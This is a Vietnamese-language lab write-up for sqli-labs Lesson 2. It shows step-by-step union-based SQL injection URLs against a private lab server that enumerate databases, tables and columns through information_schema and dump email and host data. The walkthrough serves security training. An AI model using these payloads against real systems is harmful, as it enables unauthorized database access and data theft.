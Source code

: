 # Một số việc làm với được lesson-2.md

![](../images/lesson1/screenshot.png)

Ta sẽ xem là server sử dụng hệ quản trị cơ sở dữ liệu nào ta nhìn vào port và thấy sử dụng MYSQL 

1. Đăng nhập với giá trị id 
```
http://192.168.80.225/sqli-labs/Less-2/?id=1
```

![](../images/lesson2/screenshot_1.png)

2. Show tấ cả các DB có trong hệ thống
- Với command
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson2/screen.png)

Các DB sẽ cách nhau một dấu phẩy 

3. Show tất cả các bảng của từng DB một 
- Show tất cả các bảng của DB security 
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson2/screen_1.png)

- Show tất cả các bảng của DB mysql 
```
http://192.168.80.225//sqli-labs/Less-2/?id=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson2/screen_2.png)

- Show tất cả các bảng của DB challenges
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson2/screen_3.png)

Các DB khác tương tự và chỉ thay ở tên challenges

4. Show tên các cột trong từng bảng của từng DB 
- Show tên các trường trong bảng users trong  DB security
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 1,1 --+
```

![](../images/lesson2/screen_4.png)

- Show tên các trường trong bảng emails trong  DB security
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='emails' limit 1,1 --+
```

![](../images/lesson2/screen_4.png)

-  Show tên các trường trong bảng uagents trong  DB security
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' limit 1,1 --+
```

![](../images/lesson2/screen_6.png)

- Show tên các trường trong bảng referers trong  DB security

```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='referers' limit 1,1 --+
```

![](../images/lesson2/screen_7.png)

- Show dữ liệu tên trường của bảng db trong database mysql 
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,2,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='mysql' AND table_name='db' limit 1,1 --+
```

![](../images/lesson2/screen_8.png)

Đọc dữ liệu trong một bảng 
- Bảng emails của security 
```
http://192.168.80.225/sqli-labs/Less-2/?id=1 union SELECT 1,group_concat(id),group_concat(email_id) from emails limit 1,1--+
```

![](../images/lesson2/screen_9.png)


- Show dữ liệu trong bảng của  một DB khác 
```
http://192.168.80.225/sqli-labs/Less-2/?id=1  union SELECT 1,2,group_concat(Host) from mysql.db limit 1,1--+
```

![](../images/lesson2/screen_10.png)

Tương tự như thế thì đối với các bảng và các DB khác thì ta truy suất tương tự như thế và thay tên các trường các table các DB mà ta mong muốn. 